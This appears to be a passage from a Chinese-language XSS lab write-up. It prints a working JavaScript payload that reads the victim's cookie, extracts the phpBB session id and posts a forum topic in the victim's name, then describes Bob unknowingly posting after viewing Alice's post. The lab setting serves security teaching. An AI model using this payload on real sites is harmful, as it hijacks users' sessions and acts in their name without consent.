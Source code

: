 编写脚本如下，

```html
<script>
  var Ajax = null;
  Ajax = new XMLHttpRequest();
  Ajax.open("POST", "http://www.xsslabphpbb.com/posting.php", true);
  Ajax.setRequestHeader("Host", "www.xsslabphpbb.com");
  Ajax.setRequestHeader("Keep-Alive", "300");
  Ajax.setRequestHeader("Connection", "keep-alive");
  Ajax.setRequestHeader("Cookie", document.cookie);
  Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var c = document.cookie;
  var i = c.indexOf("sid=");
  var content = "subject=" + "XSSWormSKPrimin" + "&addbbcode18=%23444444&addbbcode20=0&helpbox=Font+color%3A+%5Bcolor%3Dred%5Dtext%5B%2Fcolor%5D++Tip%3A+you+can+also+use+color%3D%23FF0000"+ "&message="+"This is a worm created by SKPrimin" +"&poll_title=&add_poll_option_text=&poll_length=&mode=newtopic&sid=" + c.slice(i + 4, i + 4 + 32) +"&f=1&post=Submit";
  Ajax.send(content);
</script>
```

### 发帖

由Alice登录并发帖

![image-20220316175035853](XSSAttack/image-20220316175035853.png)

切换登录，由bob查看，点击后再退出便发现Bob在不知情的情况下发了一个帖
